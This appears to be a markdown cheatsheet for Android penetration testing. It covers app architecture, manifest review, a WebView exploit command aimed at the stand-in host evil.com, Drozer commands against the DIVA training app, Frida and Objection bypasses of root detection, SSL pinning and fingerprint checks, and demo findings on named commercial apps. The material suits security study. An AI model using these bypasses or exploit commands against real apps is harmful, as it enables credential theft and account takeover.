

# Android Security
- Android, based on the `Linux kernel`, is a mobile operating system. Discovered by Android Inc., acquired by Google.

## Android Architecture
- Android is an open source, Linux-based software stack created for a wide array of devices and form factors. [Credits](https://developer.android.com/guide/platform)


##### Linux Kernel
- The foundation for the Android platform is the Linux kernel, Android Runtime(ART) relies on the Linux kernel for underlying functionalities such as threading and low-level memory management.
- This kernel lets android take advatage of the [key security features](https://source.android.com/security/overview/kernel-security.html) and lets device manufactures develop hardware drivers for a well-known kernel. 
##### Hardware abstraction layer (HAL)
- The HAL provides standard interfaces that expose device specific modules including camera, Bluetooth, Sensor.
##### Android Runtime


- Core Libraries - are the tools and resources that the application code utilizes and the runtime environment provides.
- Android Runtime(ART) written to run multiple virtual machines on low-memory devices by executing Dalvik Executable format(DEX) files it specifically designed for android.
    - Ahead -of-time (AOT) and just-in-time (JIT) compilation
        - AOT (All code compiled together) compilation converts code into native machine code before an app runs, providing faster startup and execution.     
        - JIT (Each code file code compiled seperatly, suitable local development) converts code to native machine code during runtime, which uses fewer resources upfront and allows for dynamic optimization based on usage.
- Optimized garbage collection (GC).
- On Android 9 (API level 28) and higher, conversion of an app package's DEX files to mapp package into a more compact representation. This change allows your app to start faster and consume less disk space and RAM.
##### Libraries
- Many core Android system components and services, such as ART and HAL, are built from native code that requires native libraries written in C and C++.
- It has Weblit for browser application, Open GL add support for drawing and manupulating 2D and 3D graphics in your app.
##### Java API Framework
- View system you can use to build an app’s UI, including lists, grids, text boxes, buttons, and even an embeddable web browser
- Resource manager, providing access to non-code resources such as localized strings, graphics, and layout files
- Notification manager that enables all apps to display custom alerts in the status bar
- Activity manager that manages the lifecycle of apps and provides a common navigation back stack
- Content providers that enable apps to access data from other apps, such as the Contacts app, or to share their own data
##### System Apps
- User apps including Phone, Email, Message, Camers


## Androind Static Analysis
- Every app project must have an `AndroidManifest.xml` file, with precisely that name, at the root of the project source set. The manifest file describes essential information about your app to the Android build tools, the Android operating system, and Google Play.
- Android made up apk file, When you decompile the apk, you will get lot of files and folders. One of the file is `AndroidManifest.xml`
- `AndroidManifest.xml` stores permissions, package, version, SDK, Components of applications activity

```bash
<?xml version="1.0" encoding="utf-8"?>
<manifest
    xmlns:android="http://schemas.android.com/apk/res/android"
    android:versionCode="1"
    android:versionName="1.0">

    <!-- Beware that these values are overridden by the build.gradle file -->
    <uses-sdk android:minSdkVersion="15" android:targetSdkVersion="26" />

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:label="@string/app_name"
        android:supportsRtl="true"
        android:theme="@style/AppTheme">

        <!-- This name is resolved to com.example.myapp.MainActivity
             based on the namespace property in the build.gradle file -->
        <activity android:name=".MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>

        <activity
            android:name=".DisplayMessageActivity"
            android:parentActivityName=".MainActivity" />
    </application>
</manifest>
```

- `Activity` represents single screen of the UI of the application(loginActivity, cartpage.java) 
- `Services` More long running process no need of UI interface, it's like spotify application audio playing in the backround.
- `Broadcast Receviers` when charging cable connected notification, Got msg notification
- `Content Provider` provides the interface of appls, gives space app data in locally or cloud.
- `intents` used for communication between 2 components 
```bash
<!-- Explicit Intent Example: MyMainActivity is the entry point, typically launched explicitly -->
        <activity android:name=".MyMainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>

<!-- Implicit Intent Example: MyShareActivity can handle sharing text -->
        <activity android:name=".MyShareActivity"
            android:exported="true"> <!-- Required for Android 12+ if intent-filter is present -->
            <intent-filter>
                <action android:name="android.intent.action.SEND" />
                <category android:name="android.intent.category.DEFAULT" />
                <data android:mimeType="text/plain" />
            </intent-filter>
        </activity>
```
    - `Explicit Intent` specifically mentioned towards the component
    - `Implicit Intent` not mentioned by us, however intent does contain other attributes which allow the android to figureout the correct intent.


- Match case

- intent filters not match Match case

## Hacking Android WebViews
> WebView is a system component and a special UI element that allows an app to display web content, such as web pages or web-based applications, directly within its own interface instead of opening a seperate browser app. 

- Built on the Chromium engine, it acts as streamlined, in-app browser to render HTML, CSS and Javascript [Demo Application Vulnwebview](https://github.com/t4kemyh4nd/vulnwebview).
- WebViews are commonly used for tasks like displaying user agreements, in-app login pages, or links within socail media feeds, providing a more integrated and seamless user experience.

### WebView Vulnerabilities via the app's code ?
- If developer explicitly mentions `android:exported=true`, this parameter will taken adavatage by the third-pary applications sending intent this componet is exported third-paries has access to it. 

```bash title="AndroidManifest.xml" linenums="1" hl_lines="7-8"
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.tmh.vulnwebview">
    <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
    <application
        <activity android:name=".SupportWebView" android:exported="true" />
        <activity android:name=".RegistrationWebView" android:exported="true" />
        <activity android:name=".MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```
- You can exploit this using the `adb shell` manually starting the activity.
```bash
# https://github.com/t4kemyh4nd/vulnwebview/blob/main/app/src/main/java/com/tmh/vulnwebview/RegistrationWebView.java, line 45 has reg_url
adb shell am start -n com.tmh.vulnwebview.RegistrationWebView --es reg_url "https://www.evil.com"
# --es extra string
```
- Application code 
```java title="RegistrationWebView.java" linenums="1" hl_lines="34-37"
package com.tmh.vulnwebview;
import android.os.Bundle;
import android.util.Log;
import android.webkit.ConsoleMessage;
import android.webkit.WebChromeClient;
import android.webkit.WebView;
import android.webkit.WebViewClient;
import androidx.appcompat.app.AppCompatActivity;

public class RegistrationWebView extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_registration_web_view);
        setTitle("Registration page");

        loadWebView();
    }

    private void loadWebView() {
        WebView webView = findViewById(R.id.webview);
        webView.setWebChromeClient(new WebChromeClient() {
            @Override
            public boolean onConsoleMessage(ConsoleMessage consoleMessage) {
                Log.d("MyApplication", consoleMessage.message() + " -- From line " +
                        consoleMessage.lineNumber() + " of " + consoleMessage.sourceId());
                return true;
            }
        });

        webView.setWebViewClient(new WebViewClient());
        //Allows cross-origin requests from file:// scheme to access content from any origin
        webView.getSettings().setAllowUniversalAccessFromFileURLs(true);

        //Enabling javascript
        webView.getSettings().setJavaScriptEnabled(true);

        if (getIntent().getExtras().getBoolean("is_reg", false)) {
            webView.loadUrl("file:///android_asset/registration.html");
        } else {
            webView.loadUrl(getIntent().getStringExtra("reg_url"));
        }
    }
}
```

- Scenarios
    - If an Authorization header is being sent while requesting the attacker-controlled domain.
    - If the application loads URLs with HTTP
- `setAllowUniversalAccessFromFileURLs` sets whether cross-origin requests in the context of a file schema URL should be allowed to access content from any origin. This include access to content from other file scheme URLs or web contexts.
- The setting removes all the `same-origin` policy restrictions allow urls make requests from files.
- `setJavaScriptEnabled` allow an attacker to carry out XSS, token stealing


## Static Analysis
- Static Analysis is all about decompiling and reverse engineering the APK file.
- Once decompiled or reverse engineered, we check out for certain specific file
    - AndroidManifest.xml
    - Application is Debuggable
    - Exported Activity is true
    - Check for typographic errors in custom permissions
    - Check for Exported Broadcast behaviour
    - Check for Hardcoded API keys, Comments, Secrets, etc.
    - Checking for Intents, etc.

#### MobSF Android
- [MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF) stands for Mobile Security Framework, It's an automated, all-in-one mobile application penetration framework.
- Helps to perform runtime assessment, Reports can be downloaded in PDF format, It's Open-source and clean to install.
- [Bugbazaar Report](https://github.com/ashok5141/Application-Security-Cheatsheet/blob/main/Reports/Android_BugBazaar.pdf)

#### Static analysis Tools
- **CloudSEK BeVigil** is a free mobile security tool, Offers services to recon mobile applications.
    - Scan App is the feature which can scan applications and automatically find vulnerabilities.
    - Credit-based system [bevigil](https://bevigil.com/scan-app) 

- **Yaazhini** is a free user-friendly uulnerability scanner for Android APK and API that's exclusively designed and developed to identify APK and API level.
    - Yaazhini has two vulnerability scanners are:
    - Android Application APK vulnerability scanner
    - Android Application REST API vulnerability scanner [Here](https://www.vegabird.com/yaazhini/)
#### Shared Preferences & Other Data Storage options 
- Shared Preferences are one of the databases where developers usually store application related data.
    - Most of the time this data is not encrypted and can be visible in plain text.
    - There is a high possibility that the data consists of usernames and passwords
    - Simply visit the location /data/data/package.name and view the contents of every file.
- Data Storage text file, `.db` file obsrve the code file so that, you know where it is saving `sqlite3 <table>` then `.tables` view info `slect * from <table_name>`
- **ADB Logcat**: Lgcat is a command-line tool that dumps a log of system messages when the device throws an error and sends messages that you have written from your app with the class.
    - Sometimes developers log errors, success messages, usernames, passwords which can be clearly visiable using logcat, command `adb logcat` you can filter some information `adb logcat | grep "<password>"`
- **Pidcat**: Pidcat is similar to Logcat except it only shows log entries for processes from a specific application package.
    - During application development you often want to only display log messages coming from your app, command `pidcat <packagename>`
#### Hardcoded Credentials
- Many developers hard coded credentials in the app, search for secret, crypt, private, token etc.
- Many apps use third party backend systems, analyse and `.json,.xml` files for credentials.
- Many apps contain hidden features, search for develop, debug, fake, test in the app binary.
- Check for different `.plist` files such as `GoogleService-Info.plist`. These might contain juicy API keys.
#### Drozer
- Drozer is a security testing framework for Mobile Application, Allows you to use, share and exploit Android exploits, Open-source and simple to install.
- It helps you to deploy a drozer Agent to a device through exploitation or social engineering.

| Server | Agent|
|:-|:-|
|[Server](https://hub.docker.com/r/drozerdocker/drozer) | [Agent](https://github.com/ReversecLabs/drozer-agent/releases)|
|Command `drozer console connect --server <IP>:31415`| Open Agent app in phone turn server |

- Commands After setting up the Drozer server
    - We can tweak the Exported, debuggable options with Drozer
    - When activity exported then their might be chance of other application might use this app activity.
    - Using this we open the certain activities with navigating the app menu
```bash
dz>run app.package.list
run app.package.list -f diva # Filter the diva application, Above options take lot of time if know the package name
run app.package.info -a jakhar.aseem.diva # package information
run app.package.debuggable # list of packages debuggable
run app.package.manifest jakhar.aseem.diva # Gives the manifest file
run app.package.attacksurface jakhar.aseem.diva # gives attack surface of application

# Activities 
run app.activity.info -a jakhar.aseem.diva
run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity
run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICredsActivity
run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICreds2Activity
 
# Content providers
run scanner.provider.finduris -a jakhar.aseem.diva # Found 4 query them 2
run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes/   # given the information table columns(_id, title, note)
run app.provider.insert content://jakhar.aseem.diva.provider.notesprovider/notes/ # Done
run app.provider.insert content://jakhar.aseem.diva.provider.notesprovider/notes/ --string title Hello --string note Hello # Done
run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes/  # Able to see the above inserted Hello, Hello information
run app.provider.delete content://jakhar.aseem.diva.provider.notesprovider/notes/ --selection "title=?" --selection-args home # Done
run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes/ # Deleted the Home row in the table
```

#### Firebase Real-time Database
- Firebase is a NoSQL cloud-based database, is stored in `.json` format and synchronized in real time.
- If you find a firebase string, there might be chance of that it might be misconfigured, It looks like this `https://xyz.firebaseio.com/.json`
- If the response is:
    - Permission Denied: This means that you cannot access it, so it's well configured
    - Null response or a bunch of JSON data: This means that the database is public and you at least have read access.
#### Pasteboard
- An application can also prevent its users to copy sensitive data to the clipboard which is recommended.
- For Dynamic analysis, Objections pasteboard monitor can be used.
    - First start the frida to check list apps open in the mobile if not open your app `frida-ps -Ua`
    - Objection command `objection --gadget jakhar.aseem.diva explore`
    - In the objection terminal `android clipboard monitor` enter some information on app then copy the info then you can sse that info in the objection terminal
#### Hot Patching/Enforced Updating
- Developers can remotely patch all installations of their app instantly without having to resubmit the application to the App store and wait until it's approved.
- Applications should be forced updated.
- Try downloading an older version of the application and check if it allows forced update or not.
#### WebView Related Vulnerabilities
- WebView file access is enabled by default. Since API3(Cupcake 1.5) the method `setAllowFileAccess()` is available for explicitly enabling or disabling it. 
- Applications should forced updated. The WebView needs to use a file URL schema. e.g., `file:///etc/passwd` to access the file.
- If Javascript is enabled in WebView, we can try to perform javascript based attacks such as XSS.
- The Remote WebView debugging allow to access the WebView with the chrome Developer Tools. The device needs to be accessiable by the PC(via USB, local emulator, local network) and running the debuggable WebView, then access chrome://inspect/#devices:


## Dynamic Analysis
- Android SDK Platform- Tools is a component for the Android SDK. They help in the development of the Android Applications.
#### ADB
- ADB(Android Debug Bridge) is a versatile command-line tool that lets you communicate with a device.
- It lets you interact with the devices and is generally used for debugging purpose, ADB comes installed with platform-tools.
    - Commands `adb shell, pull,push, logcat`
#### Bypass Root Detection using Frida, Objection
- Frida is a dynamic code instrumentation toolkit that premits you to inject snippets of Javascript or your library into the native application on your operating systems like Windows, iOS, Android and more. Community code [Here](https://codeshare.frida.re/)
    - SSL Pinning Bypass
    - Fingerprint Bypass
- **Objection**: Is a runtime mobile exploration toolkit, powered by Frida built to help you access the security posture of the mobile applications, without needing a jailbreak.
    - SSL Pinning bypass
    - Root Bypass
    - Capture Screenshots
- Setting up Frida and Objection
    - `python3 -m pip install frida objection frida-tools`
    - `adb shell getprop ro.product.cpu.abi` => Get the device configuration
    - Download the device configuration server file [Here](https://github.com/frida/frida/releases)
    - Push the server file using `adb push C:\ADB\frida-server /data/local/tmp`
    - Set up permissions using adb shell `chmod 777 /data/local/tmp/frida-server`
- **Root Detection**
    - Rooting is the process of unlocking an Android device in order to access higher administrative privileged controls.
    - Most Android developers, do not want their applications to be running on a rooted device, since this could lead to security concerns and impacts.
    - However, Root Detection is not strongly implemented.
    - This is the same case with Emulator Detection as well.
- **Bypassing Root Detection using Frida**
    - Check the App Package ID using `frida-ps -Ua`
    - Hook the Jailbreak frida [script](https://codeshare.frida.re/@KishorBal/multiple-root-detection-bypass/) using `frida -U -f package_id -l root.js`
    - Same way we can bypass the Emulator detection as weel.
- **Root Detection Bypass using Medusa**
    - Medusa is a flexible framework that automates the procedures and methods used in the dynamic analysis of Android applications, Link is [here](https://github.com/Ch0pin/medusa)
    - Launch Medusa and run the these below commands
        - run this `python3 medusa.py`, search `anti_debug`, use `helpers/anti_debug`, then `compile` package id `run -f package_id`
- **Root Detection Bypass using Objection**
    - Objection is a runtime mobile exploration toolkit, To install objection simply run command `pip3 install objection, frida, frida-tools`
    - Explore the package using `objection --gadget package_name explore`
    - Disable jailbreak detection using `android root diable` still giving the device rooted.
    - So try to find the which class `doesSUexit` is responsiable in the **Jadx-gui**
        - Use the command in objection `android hooking set return com.android.insecurebankv2.postLogin.doesSUexit false` Device not rooted
- **Root Detection Bypass using Magisk**
    - MagiskHide module in the Magisk application, This can only be done if the phone is rooted using Magisk Module.
    - Enable the MagiskHide module from the app settings.
    - Magisk App > v23.0 provides an alternative feature -Zygisk Denylist
    - Enable Zygisk, DenyList from the app settings.
#### SSL Pinning & Fringerprint Bypass  using Frida, Objection
- SSL certificate pinning is a technique using which only known certificate are trusted.
- This security measure pins the identity of trustworthy certificate on mobile apps and blocks unknown documents from the suspicious servers.
- However, SSL pinning is not strongly implemented.
- **Bypassing SSL Pinning using Frida**
    - Check the App Package ID using `frida-ps -Ua`
    - Hook the SSL pinning Bypass frida [script](https://codeshare.frida.re/@pcipolloni/universal-android-ssl-pinning-bypass-with-frida/) using `frida -U -f package_id -l sslpinning.js`
- **Bypassing SSL Pinning using Objection**
    - Objection is a runtime mobile exploration toolkit, To install simply run the command `pip3 install objection, frida, frida-tools`
    - Explore the package using `objection --gadget package_name explore`
    - Diable SSL pinning Bypass using `android sslpinning disable` 
- **SSL Pinning Bypass by overwriting packaged CA Certificate with custom CA Certificate**
    - A custom certificate chain is being distributed with an application, extracting the APK and overwriting the provided CA with our custom CA will let you bypass SSL Pinning.
    - Opening the APK with a tool such as APK studio makes the presence of certificate bundled with the deployed application obvious. The certificate are loacted under the `assets` directory
    - Two methods:
        - Tool `apk-mitm` [Link](https://github.com/niklashigi/apk-mitm)
- **SSL Pinning Bypass using android-unpinner**
    - This tool removes certificate pinning from APKs, Install the tool using [Github Link](https://github.com/mitmproxy/android-unpinner)
    - Launch the script using `android-unpinner all httptoolkit-pinning-demo.apk`
- **Fingerprint Bypass**
    - Some applications use fingerprints, in oder to verify the user details.
    - Although this method helps users save their time of entering USernames and Passwords, but the fingerprint is also bypass-able.
    - THe root cause is the response of the Fingerprint which is either false or 0 for un-match fingerprints.
    - Frida manipulates and reverse the response i.e.,
        - false => ture
        - 0 => 1
- Check the App Package ID using `frida-ps -Ua`
- Hook the fingerprint Bypass frida [script](https://codeshare.frida.re/@krapgras/android-biometric-bypass-update-android-11/) using `frida -U -f package_id -l fingerprint.js --no-pause`


#### Non Rooted Frida and Objection
- Patch the application `objection patchapk -s <APPNAME.apk>` it will check phone version according it build the application.
- After installing the in the phone `objection explore` in theriminal app will work, able to capture the request.
- This will take the screenshot of the application `android ui screenshot png` 

## Progressive Web Application Attacks
- Progressive Web Applications(PWAs) are apps built with web technologies that we probably all know and love, like HTML, CSS, and JavaScript. But they have the feel and functionality of an actual native app.
- A Native App is a software application built in a specific programming language for a specific device platform. Either IOS or Android.
- Ex:- React, Flutter
- **Bypassing Root & SSL Pinning in PWAs**
    - Same scripts as normal root detection can be used [Here](https://github.com/lpilorz/flutter-app/blob/master/frida-root-checker-bypass.js)
    - SSL Pinning Bypass [Here](https://github.com/horangi-cyops/flutter-ssl-pinning-bypass/blob/main/flutter-bypass-sslpinning.js)
    - Flutter [Applications](https://github.com/jjogal/Android/tree/master/flutter-test-apps)
    - [Reflutter](https://github.com/ptswarm/reFlutter) for adding IP address after that add the certificate from the [Uber-apk-signer](https://github.com/patrickfav/uber-apk-signer), Configure the burp and check the invisiable requests in the burp.

## Demo
- Demo 1- Insecure Permissions, FreshtoHome.apk, seen in the MobSF has permissions of `Access_COARSE_Location` is network based location permission, `Access_Fine_Location` fine GPS location permissions.
- Demo 2- Application Signing & Janus vulnerability, Limeroad.apk, App signed with v1, v2. Attacker add dynamic source code to the application without modifing the signature.
- Demo 3- Hardcoded Credentials, FreshtoHoem.apk and Limeroad.apk, in MobSF has Firebase URl, Google api key, Google crash reporting api keys [github](https://github.com/streaak/keyhacks)
- Demo 4- Shared Preference, Urbanic.apk has the check in the `/data/data/<APP>/shared_prefs` path has the `.xml` files
- Demo 5- Insufficient Cryptography, FreshtoHome.apk and Limeroad.apk, Has the cryptographic encryption mode `CBC with PKCS5/PKCS7` padding, MD5, SHA1 algorithm.
- Demo 6- Non Parameterized SQL Queries, FreshtoHome.apk, has Raw SQL quires cause SQL injection.
- Demo 7- Insecure Logging, Urbanic.apk, PII information entering into the application visiable in the `adb logcat | grep "keyword_search"`
- Demo 8- WebView XSS, Trengo.apk, Uploaded normal XSS did not work, encoded the XSS payload with `.svg` so whever we click on this alert poping.
- Demo 9- Pasteboard Monitor, bislari.apk, start the frida and objection monitor the clipboard in objection terminal, password copy restricted but when view the password then you can view and the objection captured the vulnerability.
- Demo 10- Screenshot and Background Screen caching, bislari.apk, Run the objection `android ui screenshot png` it will save into desktop, application vulnerable screenshot.
- Demo 11- Root Detection and SSL Pinning Bypass, mytoyota.apk, Start the frida server on mobile then identify the frida package name in the PC, frida script to bypass the it bypassed the root detection. SSL pinning is implemented so run the frida SSL bypass script so we can run the app see the communication in the burpsuite further you can play with web attacks.
- Demo 12- Fingerprint Bypass, AppLock.apk, bypass the fingerprint use the frida script to bypass.
- Demo 13- No Rate Limit, Binks.apk, First bypass the SLL pinning then Enter mobile number, we send the request to burp intruder try to send the null request send multiple OTPs, recevied multiple OTPs no rate limit for this. Tehn entered any random number for the OTP send the request to intruder it not implemeted rate limiting attacker can try to bruteforce this.
- Demo 14- Authentication Issues - Status and Response Code Manipulation, sss.apk, frida bypass the SSL pinning, Login with OTP in the burp changed the OTP to random status code give 202 as otp is not correct, changed the status to 202 to 200 able to login with application.
- Demo 15- Business Logic Issue, mytoyota.apk, SSL Pinning Bypass using the  frida script, Automatically Toyota id is assigned, Only 3 mobile numbers are we can add, send the reques the to repeater enter new mobile number, change the toyota id as well, this information saved on the server, So the validation on client only , no server side.
- Demo 16- Flutter APK Root & SSL Pinning Bypass, KisanKonnect.apk, FlutterShark shows you all the application running on flutter in your device, reflutter this for traffic monitor embeded the IP address, sign application with uber-apk-signer script, Configure the burp try to capture.

#### Bug bunty tips
- [Link](https://github.com/sushiwushi/bug-bounty-dorks)

## Android File Structure
- File structure
```bash
├── AndroidManifest.xml   # Application's configuration file; defines permissions, components, and security settings.
│
├── classes.dex           # Contains the app's compiled Java/Kotlin bytecode. This is the main code file to analyze.
│
├── lib/                  # Holds native libraries (in .so files) for different CPU architectures.
│   ├── arm64-v8a/
│   ├── armeabi-v7a/
│   ├── x86/
│   └── x86_64/
│
├── res/                  # Contains compiled resources like layouts, strings, and images.
│   ├── anim/
│   ├── drawable/
│   ├── layout/
│   └── values/
│
├── assets/               # A raw collection of bundled files (e.g., databases, configuration files).
│
└── META-INF/             # Contains the app's signature, manifest, and checksums. Critical for integrity verification.
    ├── CERT.RSA
    ├── CERT.SF
    └── MANIFEST.MF
```

## OWASP Mobile MASVS vs MASTG
- OWASP MASVS and OWASP MASTG are two foundational frameworks for mobile security, but they serve different purpose.
- They provide a comprehensive approch that goes far beyond the high-level OWASP Top 10 list.

| | OWASP MASVS | OWASP MASTG|
|:-|:-|:-|
| Full Name | Mobile Application Security Verification Standard | Mobile Application Security Testing Guide |
| Purpose | A **standard** for defining what a secure mobile app should look like. It's a checklist of security controls. | A **guide** on how to perform security testing. It provides detailed methodologies and test cases. |
| Focus | **What** to secure | **How** to test |
| Analogy | A list of requirements for building a secure vault. | The instruction manual for a professional vault cracker. |